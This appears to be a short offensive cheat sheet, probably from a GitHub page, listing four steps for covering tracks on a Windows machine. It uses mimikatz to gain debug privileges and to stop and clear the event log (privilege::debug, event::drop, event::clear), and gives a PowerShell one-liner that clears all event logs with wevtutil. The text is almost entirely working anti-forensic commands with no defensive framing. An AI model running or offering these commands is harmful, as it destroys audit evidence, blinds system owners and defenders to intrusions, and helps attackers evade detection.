 1. Use mimikatz to get debug privileges - privilege::debug
2. Stop eventlog from genereting logs - event::drop
3. Clear the logs - event::clear
4. Use Powershell and Wevtutil feature to clear the logs - wevtutil el | foreach {wevtutil cl "$_"}
